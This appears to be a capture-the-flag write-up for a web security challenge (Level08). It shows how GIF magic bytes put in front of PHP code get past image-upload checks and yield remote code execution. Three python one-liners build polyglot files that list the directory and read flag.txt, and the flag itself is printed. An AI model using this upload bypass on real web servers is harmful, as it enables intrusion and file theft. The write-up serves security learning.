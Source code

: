 ### Level08
Alright, source shows some semi-decent checks on the file to make sure it's gif-like and then goes and dumps it in the page like an idiot.
So, let's write some php.
`python -c 'print("\x47\x49\x46\x38\x39\x61"+" <?php print_r(getcwd()); ?>")' > stuff.gif` works initially to make sure we have commands.
`python -c 'print("\x47\x49\x46\x38\x39\x61"+" <?php print_r(scandir(\"./\")); ?>")' > stuff.gif` shows a flag in the same folder as us.
And finally `python -c 'print("\x47\x49\x46\x38\x39\x61"+" <?php print_r(readfile(\"flag.txt\")); ?>")' > stuff.gif`
Flag is `WEBSEC{BypassingImageChecksToRCE}`
    
